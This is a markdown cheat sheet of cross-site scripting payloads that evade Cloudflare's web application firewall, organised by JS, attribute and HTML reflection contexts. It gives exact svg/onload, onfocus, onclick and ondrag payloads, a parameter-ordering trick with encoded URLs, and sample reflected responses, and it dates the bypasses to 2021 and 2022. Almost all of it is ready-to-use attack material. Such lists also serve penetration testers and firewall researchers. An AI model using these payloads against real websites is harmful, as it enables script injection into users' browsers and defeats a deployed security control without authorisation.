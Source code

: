 # CloudFlare XSS bypasses in different contexts

### JS Context

For **JS** context, when multiple parameters are reflected inside **<script>** tag e.g:
```
<script>
something({"some/thing":{"key":[{"name":"PARAM2_REFLECTION1","age":"","country":"","address1":"PARAM1_REFLECTION2","id":"123"}]}});
</script>
```

Set value of parameter which is reflected first: `</script%20`

Set value of parameter which is reflected afterwards: `><svg/oni=on onload=confirm(2)>`

The parameter which is reflected first, should be placed at end of URL, like:

`https://example[.]com/some/endpoint?param1=%3E%3Csvg%2Foni%3Don%20onload%3Dconfirm(2)%3E&param2=</script%20`

If it is placed before like folllowing, Cloudflare WAF will trigger:

`https://example[.]com/some/endpoint?param2=</script%20&param1=%3E%3Csvg%2Foni%3Don%20onload%3Dconfirm(2)%3E`

Sample Response contents:
```
<script>
something({"some/thing":{"key":[{"name":"</script ","age":"","country":"","address1":"><svg/oni=on onload=confirm(2)>","id":"123"}]}});
</script>
```

### Attribute Context

For Attribute context use:
```
bbbbb" id="bbbbb" Only=1 tabindex=1 onfocus=alert(1) a
"><svg/oni=on onload=confirm(2)>
'><svg/oni=on onload=confirm(2)>
```

Following bypasses WAF when request verb is POST:
```
cccc" oni=on onclick=print() dddd
```

### HTML Context

* For HTML context use:

`<Svg Only=1 OnLoad=confirm(1)>` Credits for XSS bypass in HTML context: [Brute Logic](https://twitter.com/brutelogic/status/1495769940615442434)

`<svg/oni=on onload=confirm(2)>` Credits for XSS bypass in HTML context: [Troll_13](https://twitter.com/Troll_13/status/1353713311972552709)

* When `>` is present somewhere after our payload in response page:

`<svg oni=on onload=alert(1)//` e.g reflected as `<svg oni=on onload=alert(1)//</h2>` (Crafted on `February 01, 2022`)

* When user input is reflected twice and `>` is disallowed for valid existent tags and `>` is not present in response body:

`><svg oni=on onload=alert(document.domain)//` will e.g get reflected as `Found ><svg oni=on onload=alert(document.domain)//{"><svg oni=on onload=alert(document.domain)\/\/":null}` and XSS will trigger.

* When `>` is not present after our payload anywhere in response body and at the same time when `>` is not allowed as its allowed in previous payloads, inexistent tag can be provided for xss:

`<o oni=on ondrag=alert(1)>Drag Me` e.g reflected as `<o oni=on ondrag=alert(1)>Drag Me no left angle bracket present here` -> then highlight text and drag it to trigger XSS (Crafted on `February 01, 2022`)


---

Bypasses tested on: `August 26, 2021` and `February 01, 2022`
